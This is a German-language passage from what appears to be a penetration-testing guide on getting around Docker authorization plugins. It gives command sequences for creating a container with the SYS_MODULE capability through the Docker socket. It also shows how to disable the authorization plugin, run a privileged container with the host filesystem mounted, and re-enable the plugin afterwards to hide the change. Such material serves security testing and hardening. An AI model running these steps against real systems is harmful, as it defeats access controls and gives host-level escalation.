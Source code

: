 Es ist möglich, dass der Sysadmin beim Konfigurieren der Docker-Firewall **ein wichtiges Attribut eines Parameters** der [**API**](https://docs.docker.com/engine/api/v1.40/#operation/ContainerList) wie "**Capabilities**" innerhalb von "**HostConfig**" **vergessen hat**. Im folgenden Beispiel ist es möglich, diese Fehlkonfiguration auszunutzen, um einen Container mit der **SYS_MODULE**-Berechtigung zu erstellen und auszuführen:
```bash
docker version
curl --unix-socket /var/run/docker.sock -H "Content-Type: application/json" -d '{"Image": "ubuntu", "HostConfig":{"Capabilities":["CAP_SYS_MODULE"]}}' http:/v1.40/containers/create
docker start c52a77629a9112450f3dedd1ad94ded17db61244c4249bdfbd6bb3d581f470fa
docker ps
docker exec -it c52a77629a91 bash
capsh --print
#You can abuse the SYS_MODULE capability
```
> [!NOTE]
> Die **`HostConfig`** ist der Schlüssel, der normalerweise die **interessanten** **Befugnisse** enthält, um aus dem Container zu entkommen. Beachten Sie jedoch, wie die Verwendung von Binds außerhalb davon ebenfalls funktioniert und Ihnen möglicherweise ermöglicht, Einschränkungen zu umgehen.

## Deaktivieren des Plugins

Wenn der **Sysadmin** **vergessen** hat, die Möglichkeit zu **verbieten**, das **Plugin** zu **deaktivieren**, können Sie dies ausnutzen, um es vollständig zu deaktivieren!
```bash
docker plugin list #Enumerate plugins

# If you don’t have access to enumerate the plugins you can see the name of the plugin in the error output:
docker: Error response from daemon: authorization denied by plugin authobot:latest: use of Privileged containers is not allowed.
# "authbolt" is the name of the previous plugin

docker plugin disable authobot
docker run --rm -it --privileged -v /:/host ubuntu bash
docker plugin enable authobot
```
Denke daran, das **Plugin nach der Eskalation wieder zu aktivieren**, oder ein **Neustart des Docker-Dienstes funktioniert nicht**!

## Auth Plugin Bypass Berichte

- [https://staaldraad.github.io/post/2019-07-11-bypass-docker-plugin-with-containerd/](https://staaldraad.github.io/post/2019-07-11-bypass-docker-plugin-with-containerd/)

{{#include ../../../banners/hacktricks-training.md}}
